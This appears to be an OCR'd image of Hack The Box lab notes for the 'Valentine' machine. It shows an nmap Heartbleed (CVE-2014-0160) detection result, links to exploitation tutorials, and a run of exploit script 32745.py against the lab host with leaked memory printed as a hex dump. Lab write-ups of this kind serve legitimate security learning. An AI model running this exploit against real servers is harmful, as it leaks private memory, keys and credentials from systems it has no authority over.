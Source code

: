 
_  least strength: C
| ssl-heartbleed:                                                                                                                                             
|   VULNERABLE:              
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High                                                                                                                                       
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as 
the encryption keys themselves.        
|           
|     References:
|       http://www.openssl.org/news/secadv_20140407.txt 
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|_      http://cvedetails.com/cve/2014-0160/



https://stackabuse.com/how-to-exploit-the-heartbleed-bug/




https://hakin9.org/detecting-and-exploiting-the-openssl-heartbleed-vulnerability/



kali@kali:~/htb/boxes/valentine/10.10.10.79$ python 32745.py  10.10.10.79                                                                                                                                                                                                                                                    
Connecting...                                                                                                                                                                                                                                                                                                                
Sending Client Hello...                                                                                                                                                                                                                                                                                                      
Waiting for Server Hello...                                                                                                                                                                                                                                                                                                  
 ... received message: type = 22, ver = 0302, length = 66                                                                                                                                                                                                                                                                    
 ... received message: type = 22, ver = 0302, length = 885                                                                                                                                                                                                                                                                   
 ... received message: type = 22, ver = 0302, length = 331                                                                                                                                                                                                                                                                   
 ... received message: type = 22, ver = 0302, length = 4                                                                                                                                                                                                                                                                     
Sending heartbeat request...                                                                                                                                                                                                                                                                                                 
 ... received message: type = 24, ver = 0302, length = 16384                                                                                                                                                                                                                                                                 
Received heartbeat response:                                                                                                                                                                                                                                                                                                 
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...                                                                                                                                                                                                                                                    
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......                                                                                                                                                                                                                                                    
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".                                                                                                                                                                                                                                                    